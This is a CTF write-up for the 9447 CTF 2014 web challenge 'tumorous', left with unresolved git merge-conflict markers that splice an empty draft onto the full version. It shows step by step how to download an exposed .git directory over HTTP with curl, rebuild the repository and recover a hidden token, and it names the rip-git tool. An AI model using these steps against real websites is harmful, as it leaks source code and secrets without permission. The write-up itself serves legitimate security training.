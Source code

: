 # 9447 CTF 2014: tumorous

**Category:** Web
**Points:** 100
**Description:**

> They are following me. They are after my token. I have to hide it somewhere. I’m not very good at hiding.
>
<<<<<<< HEAD
> tumorous.9447.plumbing

## Write-up

(TODO)

## Other write-ups and resources

* none yet
=======
> [tumorous.9447.plumbing](http://tumorous.9447.plumbing/)

## Write-up

**Note:** This challenge is a harder version of [the _bashful_ challenge](https://github.com/ctfs/write-ups/tree/master/9447-ctf-2014/bashful#readme).

The page at <http://tumorous.9447.plumbing/> contains:

> 13/2/2004: I learned how to html, yay!
> 12/4/2004: I learned how to use git, yay!
> 13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
> 08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
> 10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
> 10/9/2004: I can't forget my token. What do I do?
> 11/9/2004: I panicked and deleted the token. It is the work of evil doers.
> 12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.

The second line hints at Git, so let’s try visiting <http://tumorous.9447.plumbing/.git/>. It returns a 403 Forbidden status code, indicating that the `.git` directory exists on the server, although directory listings are disabled.

An easy way to figure out which files are usually present in a `.git` folder is to create a new Git repository.

```bash
$ cd $(mktemp -d /tmp/tumorous-XXXX)

$ git init

$ cd .git

$ ls -Rls
total 24
8 -rw-r--r--   1 mathias  wheel   23 Nov 30 15:24 HEAD
8 -rwxr--r--   1 mathias  wheel  137 Nov 30 15:24 config
8 -rw-r--r--   1 mathias  wheel   73 Nov 30 15:24 description
0 drwxr-xr-x  11 mathias  wheel  374 Nov 30 15:24 hooks
0 drwxr-xr-x   3 mathias  wheel  102 Nov 30 15:24 info
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 objects
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 refs

./hooks:
total 80
 8 -rwxr-xr-x  1 mathias  wheel   452 Nov 30 15:24 applypatch-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   896 Nov 30 15:24 commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   189 Nov 30 15:24 post-update.sample
 8 -rwxr-xr-x  1 mathias  wheel   398 Nov 30 15:24 pre-applypatch.sample
 8 -rwxr-xr-x  1 mathias  wheel  1642 Nov 30 15:24 pre-commit.sample
 8 -rwxr-xr-x  1 mathias  wheel  1352 Nov 30 15:24 pre-push.sample
16 -rwxr-xr-x  1 mathias  wheel  4951 Nov 30 15:24 pre-rebase.sample
 8 -rwxr-xr-x  1 mathias  wheel  1239 Nov 30 15:24 prepare-commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel  3611 Nov 30 15:24 update.sample

./info:
total 8
8 -rw-r--r--  1 mathias  wheel  240 Nov 30 15:24 exclude

./objects:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 info
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 pack

./objects/info:

./objects/pack:

./refs:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 heads
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 tags

./refs/heads:

./refs/tags:

```

Now we have a list of files and folders we can look for on the server: `http://tumorous.9447.plumbing/.git/HEAD`, `http://tumorous.9447.plumbing/.git/config`, etc. Let’s recreate the expected directory structure locally, and download these files:

```bash
mkdir -p /tmp/restored-git-repo/.git;
cd /tmp/restored-git-repo/.git;
mkdir -p {hooks,info,objects/{info,pack},refs/{heads,tags}};
for file in HEAD config description info/exclude refs/heads/master; do
  curl "http://tumorous.9447.plumbing/.git/${file}" > "${file}";
done;
cd ..;
```

Whenever we run a Git command in the repository, we get an error:

```bash
$ git log
fatal: bad object HEAD
```

Let’s see what `HEAD` refers to:

```bash
$ cat .git/HEAD
ref: refs/heads/master

$ cat .git/refs/heads/master
3dbda5576912236328494b11f9361dca66c0218a
```

Due to [the way Git stores objects](http://git-scm.com/book/en/v2/Git-Internals-Git-Objects), the object `3dbda5576912236328494b11f9361dca66c0218a` is expected to be at `.git/objects/3d/bda5576912236328494b11f9361dca66c0218a`. Let’s write a function to download such objects based on their hash:

```bash
function fetchobject() {
  hash="${1}";
  dir="${hash:0:2}";
  file="${hash:2:38}";
  mkdir -p ".git/objects/${dir}";
  path=".git/objects/${dir}/${file}";
  curl -s "http://tumorous.9447.plumbing/${path}" > "${path}";
}
```

Now we can easily download the first missing piece, i.e. object `3dbda5576912236328494b11f9361dca66c0218a`:

```bash
$ fetchobject 3dbda5576912236328494b11f9361dca66c0218a
```

Now, let’s try running `git log` again:

```bash
$ git log
error: Could not read 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
fatal: Failed to traverse parents of commit 3dbda5576912236328494b11f9361dca66c0218a
```

Another missing object! Let’s download it and try again:

```bash
$ fetchobject 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a

$ git log
commit 3dbda5576912236328494b11f9361dca66c0218a
Author: root <root@ip-172-31-5-48.ap-southeast-2.compute.internal>
Date:   Sat Nov 29 03:21:33 2014 +0000

    My token now exists!

commit 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
Author: John Doe <fsck@you.me>
Date:   Tue Oct 7 08:32:28 2014 +0000

    I'm new to this repo stuff
```

Yay! We can now view the commit log. Effectively this is now a _bare_ Git repository: it contains the repository data but not the actual files. Let’s restore those as well:

```bash
$ git config --local --bool core.bare false

$ git checkout -f
error: unable to read sha1 file of token (0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0)

$ fetchobject 0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0

$ git checkout -f
error: unable to read sha1 file of index.html (3bba60ef48578d0619aff067c7f6596c1426ce96)

$ fetchobject 3bba60ef48578d0619aff067c7f6596c1426ce96

$ git checkout -f

$ ls
index.html token

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

The flag is `9447{IM_SITTING_ON_A_PILE_OF_GOLD}`.

### Alternate solution

This challenge is trivial to solve using [rip-git](https://github.com/kost/dvcs-ripper/blob/master/rip-git.pl):

```bash
$ perl ./rip-git.pl -v -u http://tumorous.9447.plumbing/.git/

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

## Other write-ups and resources

* [Write-up by Hypnosec](https://github.com/hypnosec/writeups/blob/master/2014/9447-ctf/web/tumorous.md)
* <http://wiremask.eu/9447-ctf-2014-web-100-tumorous/>
>>>>>>> d8f669f2b80eec42be88358b37619f4278e0c98a

